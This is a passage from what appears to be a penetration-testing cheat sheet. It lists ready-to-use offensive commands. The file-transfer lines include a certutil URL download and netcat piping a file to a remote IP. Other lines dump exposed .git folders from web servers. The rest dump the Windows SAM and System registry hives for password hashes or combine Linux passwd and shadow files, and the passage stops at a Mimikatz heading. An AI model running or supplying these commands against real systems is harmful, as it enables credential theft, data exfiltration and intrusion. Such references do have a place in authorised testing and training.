 ```

# CertUtil
certutil.exe -urlcache -split -f "<URL>"

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>

# CURL
curl <URL> -o <OUT_FILE>
```

------

## GIT

### Download .git 

```
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>
```

### Extract .git content

```
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```

------

## HASHES

### Windows

```
reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System

samdump2 System SAM > hashes
```

### Linux

```
unshadow passwd shadow > hashes
```

------

## MIMIKATZ
